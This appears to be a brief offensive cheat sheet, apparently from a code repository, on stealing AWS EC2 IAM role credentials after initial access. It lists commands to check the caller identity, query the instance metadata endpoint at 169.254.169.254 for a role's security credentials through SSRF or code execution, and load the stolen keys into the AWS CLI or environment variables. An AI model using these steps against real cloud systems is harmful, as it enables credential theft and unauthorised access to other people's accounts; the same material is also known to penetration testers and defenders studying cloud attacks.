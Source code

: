 # AWS EC2 Credential Access

### We can grab the credentials by abusing metadata (Web Application with SSRF,RCE and so on)

## After the initial access:

#### 1) Enumerate the key (role)

    aws sts get-caller-identity

#### 2) If there are roles associated with the key, we can grab the credentials by issuing a request to the metadata endpoint (v1 or v2)

    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_OF_PREVIOUS_KEY

#### 3) Configure the aws cli

    aws configure

## OR use environment variables
